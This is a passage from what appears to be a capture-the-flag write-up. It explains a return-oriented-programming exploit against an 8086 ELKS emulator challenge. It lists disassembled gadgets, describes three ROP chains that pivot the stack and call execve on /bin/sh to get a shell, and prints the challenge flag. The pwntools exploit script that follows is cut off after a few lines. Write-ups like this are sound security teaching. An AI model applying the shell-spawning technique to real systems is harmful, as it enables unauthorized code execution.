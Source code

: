 ```python
0088  b8 03 00          mov     $0x3,%ax
008b  e9 11 00          jmp     009f // 009f
008e  b8 01 00          mov     $0x1,%ax
0091  e9 28 00          jmp     00bc // 00bc
0094  89 e3             mov     %sp,%bx
0096  8b 4f 04          mov     0x04(%bx),%cx
0099  8b 5f 02          mov     0x02(%bx),%bx
009c  e9 0e 00          jmp     00ad // 00ad
009f  89 e3             mov     %sp,%bx
00a1  8b 57 06          mov     0x06(%bx),%dx
00a4  8b 4f 04          mov     0x04(%bx),%cx
00a7  8b 5f 02          mov     0x02(%bx),%bx
00aa  e9 00 00          jmp     00ad // 00ad
00ad  cd 80             int     $0x80
```

To sum up, here are the gadgets we need:

- The int 0x80 gadget **with the setup of the registers bx,cx and dx** - we refer to it as **syscall** **(0x9f)**
- One gadget that we call **ax_sp to set up ax (0x2a9)**
- One gadget that we call **pop_bp_di to set up di and bp** **(0x2ac, as it also includes pop bp)**
- The **call to the read system call** itself **(we refer to it as read_sys - 0x88)**

Hence, the exploit will work as follows:

- First chain (**chain1**): A first call to **read syscall** that sets the target buffer to **0x2d00 (**you can try various addresses until you manage to execute the write, a good start of the .data section can be 0x2500). The call will follow the principle of the gadgets that start at **0x9f**. **bx** is the value that is **2 bytes (hence, the next block) after the current value of sp, hence 4 bytes after read_sys** (when read_syscall is invoked, sp moves up by two bytes); **cx is 4 bytes after the current value of sp**, hence 6 bytes after read_sys; **********dx is 6 bytes after the current value of sp,********** hence 8 bytes after read_sys. The block immediately after read_sys contains the address to restart the program **(0x0)** so that we can give another ROP chain to transfer the control to the pivoted area.
- Second chain (**chain2**): after resetting the program, we set a second chain to transfer the program flow to the pivoted area. the idea is to **write the bytes of /bin/sh\x00 in 0x2d00**. Hence, we transfer the control to 0x2d00+8 = 0x2d08. **Then, we call the gadget pop_bp_di, which sets bp to 0x2d08, di to 11 (the future value of ax), and si to a random value (not useful)**. **We chain pop_bp_di to the three values**, and then we call the gadget **ax_sp**, which transfers the control to the third chain. **ax_sp** switches di with ai, takes the value of bp makes sp point to the same address (0x2d08), and pops three values that are not useful for us (it resets bp, di, and si, which are now useless).
- Third chain (chain3): it calls the final syscall gadget by starting **setting up the values from 4 bytes after the syscall gadget** (as in chain1 **0x2d00 → bx, 0→cx, 0→dx**) and finally calls int 0x80 to spawn a shell!

I used some sleeps to better synchronize the remote process between the chains.

And there you go, you have the shell! Cat the flag to obtain:

**srdnlen{m0d3rn_xpl01t4t10n_ag41nst_o1d_8086_syst3ms}** 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./elksemu")
context.binary = exe
context.terminal = ["tmux", "neww", "-n", "shell"]

host, port = "localhost", 1616

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
```